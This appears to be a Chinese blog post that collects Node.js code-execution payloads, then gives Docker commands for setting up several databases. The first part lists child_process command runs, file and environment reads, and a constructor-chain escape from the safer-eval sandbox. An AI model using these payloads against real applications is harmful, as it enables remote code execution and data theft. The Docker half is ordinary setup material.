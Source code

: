 ```yaml
---
layout:     post
title:      Nodejs 代码执行利用 与 常见数据库的docker环境
subtitle:   简单小总结一下
date:       2020-12-8
author:     BY Diego
header-img: https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/5f35f364e7bce77803203a3e.jpg
catalog: true
tags:
    - Nodejs
    - docker
---
```



## nodejs 代码执行利用



**贴一下之前总结关于nodejs利用的知识点**

```javascript
require("child_process").exec("whoami")toString() 
require("child_process").execSync("dir").toString()
```

windows

```javascript
require("child_process").execFileSync("cmd",["/C","dir"]).toString()
require("child_process").spawnSync("cmd",["/C","dir"])["output"][1].toString()
````

无回现

```javascript
require("child_process").spawn("cmd",["/C","calc"])
require("child_process").execFile("cmd",["/C","calc"]) //要运行的可执行文件的名称或路径。
```

列目录 

```javascript
require("fs").readdirSync('C:\\')
```

读文件

```javascript
require("fs").readFileSync("123.txt").toString()
```

利用 process 获取敏感信息

```javascript
process.env
process.cwd()
process.arch
process.version
process.geteuid()
```

没有require下引入模块

```javascript
global.process.mainModule.constructor._load('child_process').exec('calc')
```

没有process

```javascript
toString.constructor('return process')().mainModule.constructor._load('child_process').execSync('whoami')
```

绕过沙盒
safer-eval

```javascript
toString.constructor('return process')().mainModule.constructor._load('child_process').execSync('whoami')
```





## Docker-常见数据库的快速搭建



### mysql8



```bash
docker run -dit --name mysql8 -e MYSQL_ROOT_PASSWORD=password haakco/mysql80
```

```bash
docker exec -it mysql8 bash -c "mysql -u root -p"
```



开启远程连接

```sql
ALTER USER 'root'@'%' IDENTIFIED WITH mysql_native_password by 'password';
```





### PostgreSQL



```bash
docker run --name postgresql -itd --restart always   --publish 5432:5432   --volume postgresql:/var/lib/postgresql   sameersbn/postgresql:12-20200524
```

```bash
docker exec -it postgresql sudo -u postgres psql
```





### Mssql

需要内存较高

```bash
docker run --name mssql -e 'ACCEPT_EULA=Y' -e 'SA_PASSWORD=password' -e 'MSSQL_PID=Express' -p 1433:1433 -d microsoft/mssql-server-linux
```



```bash
docker exec -it mssql /opt/mssql-tools/bin/sqlcmd -S localhost -U sa -P password
```



### Redis



```bash
docker run --name some-redis -d redis
```

```bash
docker exec -it some-redis redis-cli
```





### Sqlite3

```bash
 docker run --name sqlite3  -it nouchka/sqlite3 sqlite3
```



### Oracle

```bash
docker pull alexeiled/docker-oracle-xe-11g
```



```bash
docker run -h "oracle" --name "oracle" -d -p 49160:22 -p 49161:1521 -p 49162:8080 alexeiled/docker-oracle-xe-11g
```



```bash
docker exec -it oracle bash 
```

进入docker 执行

```bash
sqlplus system/oracle
```



### MongoDB

构建

```bash
docker run -d \
    --name mongodb \
    -p 27017:27017 \
    -e MONGODB_USERNAME=myusername \
    -e MONGODB_PASSWORD=mypassword \
    frodenas/mongodb
```



运行

```bash
 docker exec -it mongodb /bin/bash -c 'mongo 127.0.0.1/admin -u myusername -p
```


```bash
MongoDB shell version: 3.0.7
Enter password: 
connecting to: 127.0.0.1/admin
>mypassword
```

